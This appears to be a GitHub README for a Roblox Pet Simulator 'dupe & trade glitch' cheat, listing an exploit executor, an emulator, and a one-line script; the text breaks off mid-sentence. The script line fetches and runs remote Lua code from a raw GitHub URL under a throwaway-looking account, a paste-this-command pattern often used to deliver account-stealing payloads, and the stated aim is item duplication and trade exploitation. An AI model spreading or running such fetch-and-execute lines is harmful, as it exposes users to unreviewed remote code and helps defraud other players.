 # Stuff you need
## SCRIPT
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/totallynotanaltaccount928/thing/main/petsimlag.lua'))()
```
## Executer I use
[Arceus X Discord](https://discord.gg/arceus)
[Emulator I use, MEMU](https://www.memuplay.com/)
# Tutorial for Dupe & Trade Glitch
## How does this work?
This script works by 
